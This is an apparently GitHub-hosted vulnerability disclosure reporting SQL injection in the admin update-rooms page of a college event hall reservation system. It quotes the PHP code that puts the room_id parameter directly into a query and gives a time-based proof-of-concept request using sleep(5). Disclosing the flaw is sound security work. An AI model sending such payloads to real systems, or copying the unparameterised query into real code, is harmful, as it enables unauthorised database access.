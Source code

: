 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection update-rooms.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/update-rooms.php

## Code
```php
<?php 
                if(isset($_GET['room_id'])){
                    $room_id1=$_GET['room_id'];
                    $sql1="SELECT * FROM tbl_rooms WHERE room_id='$room_id1'";
                    $res1=mysqli_query($conn,$sql1);
                    if($res1==True){
                        while($row=mysqli_fetch_assoc($res1)){
                            $room_name=$row['room_name'];
                            $room_number=$row['room_number'];
                            $capacity=$row['capacity'];
                            $location=$row['location'];
                            $description=$row['description'];
                            $img_name=$row['img_name'];
                        }
                    }
                }
                ?>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/update-rooms.php?&room_id=sleep(5) HTTP/1.1
Host: [REDACTED]
```

## Screenshot


